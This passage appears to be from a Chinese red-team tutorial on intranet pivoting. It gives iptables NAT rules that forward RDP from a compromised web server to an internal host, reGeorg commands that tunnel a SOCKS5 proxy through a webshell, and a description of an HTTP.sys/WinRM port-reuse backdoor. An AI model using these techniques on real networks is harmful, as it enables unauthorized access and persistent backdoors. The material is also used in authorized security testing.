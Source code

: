 2、关闭服务

```bash
service iptables stop
```

3、配置规则

```bash
#需要访问的内网地址：10.1.1.11（Windows）
#内网边界web服务器：192.168.100.100（Linux）
iptables -t nat -A PREROUTING --dst 192.168.100.100 -p tcp --dport 3389 -j DNAT--to-destination 10.1.1.11:3389

iptables -t nat -A POSTROUTING --dst 10.1.1.11 -p tcp --dport 3389 -j SNAT --to-source 192.168.100.100
```

4、保存并重启服务

```bash
service iptables save && service iptables start
```

这时访问Web服务器的3389就能登录到内网机器的桌面了。

#### 端口复用

> **适用场景**
>
> 需要占用一些已经开启的端口情况下（ server只对外开放指定端口，无法向外进行端口转发 、规避防火墙）
>
> 当前机器不出网不出网情况下，留正向后门

#### reGeorg 端口复用

> 网络情况：A只能连接B主机的80端口，A无法与C进行通信，且B无法与外网进行通信

项目地址： [https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

reGeorg是一个Python2.7环境下开发的一款结合Webshell进行端口复用的工具；

能够将数据通过在本地建立的Socks服务转发到内网环境 ；

reGeorg需要配合Webshell使用，并且需要一个良好的网络状况，Python环境必须安装`Urlib3`

**创建Socks5代理**

```bash
python2 reGeorgSocksProxy.py -p <本地Socks5服务监听的端口> -u <Webshell地址>
python2 reGeorgSocksProxy.py -p 8888 -u http://xxx.com/shell.jsp
```

&#x20;之后使用浏览器设置Socks代理，就能访问内网主机的端口了，或者结合 Proxifier 连接 3389

#### HTTP.sys端口复用后门

> &#x20;HTTP.sys驱动是IIS的主要组成部分，主要负责HTTP协议相关的处理，它有一个重要的功能叫**Port Sharing**，即端口共享；
>
> &#x20;所有基于HTTP.sys驱动的HTTP应用可以共享同一个端口，只需要各自注册的url前缀不一样即可；
>
> &#x20;使用Windows的远程管理服务WinRM，结合HTTP.sys驱动自带的端口复用功能，可实现端口复用后门
